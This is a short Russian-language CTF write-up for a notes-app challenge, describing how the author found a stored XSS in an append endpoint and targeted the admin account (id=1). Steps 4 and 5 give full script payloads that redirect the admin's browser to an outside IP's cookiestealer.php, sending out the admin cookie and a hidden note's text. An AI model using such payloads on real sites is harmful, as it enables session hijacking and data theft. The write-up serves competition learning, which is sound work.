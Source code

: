 1. Находим дополнительных флаг нажав кнопку append c незаполненным полем.

2. Проверям на xss передав <script>alert("TEST");</script> в notes. Видим, что проэксплуатировать его здесь получиться.

3. Видим, что http://notes.ctf2019.rocks/append принимает id юзера в параметрах. Из исходного кода страницы находим,
что у admin-а id=1.

4. Забираем куку админа передав в http://notes.ctf2019.rocks/append параметры 
append=<script>document.location='http://89.163.129.121:9999/cookiestealer.php?c='.concat(document.сokkie);</script>
и id=1   
и получаем доп флаг.

5. Смотрим js path к hidden записи админа.
Передаем  в http://notes.ctf2019.rocks/append параметры 
append=<script type="text/javascript">document.location='http://89.163.129.121:9999/cookiestealer.php?c='.concat(document.querySelector('body > div:nth-child(2) > div:nth-child(1) > p:nth-child(2)').innerText);</script>
и id=1 
и получаем влаг.

